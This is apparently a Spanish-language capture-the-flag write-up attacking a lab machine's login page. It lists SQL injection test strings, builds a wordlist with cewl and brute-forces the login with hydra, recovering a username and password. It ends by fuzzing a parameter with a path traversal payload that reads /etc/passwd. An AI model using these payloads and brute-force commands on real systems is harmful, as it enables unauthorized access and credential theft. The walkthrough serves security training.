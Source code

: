Tenemos un panel de inicio de sesion que probaremos si es vulnerable a **SQLInjection**
```bash
http://172.17.0.2/login.php
```

**SQL** queries probadas:
```bash
'
admin'
admin' or 1=1-- -
admin' or '1'='1-- -
admin' or '1'='1
admin\'
admin'-- -
admin'#
admin AND 1=0-- -
admin' or sleep(5)-- -
```

Revisando el puerto de **mysql** podemos ver que existe un usuario **medusa**:
```bash
http://172.17.0.2:3306/
```

Ahora vemos lo siguiente:
```bash
We have to change this, I told Medusa to protect this more.
```

Al parecer no es vulnerable, Pero podemos realizar un diccionario personalizado con las palabras de la web de la siguiente manera:
```bash
cewl http://172.17.0.2 -w diccionario.txt
```
### Credenciales Encontradas
Ahora lanzamos el ataque al panel de inicio de sesion:
```bash
hydra -l medusa -P diccionario.txt 172.17.0.2 http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid credentials" -t 4 -f
```

Tenemos credenciales:
```bash
[80][http-post-form] host: 172.17.0.2   login: medusa   password: enthusiasts
```

Ahora nos logueamos con las credenciales para ganar acceso al panel:
```bash
http://172.17.0.2/page_super_secure/secret.php
```

Verificamos si existen parametros:
```bash
wfuzz -c -t 50 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/page_super_secure/secret.php?FUZZ=../../../../etc/passwd" -H "Cookie: PHPSESSID=vbkgg8bfd5qievkqdpp7acmssj" --hl=102
```
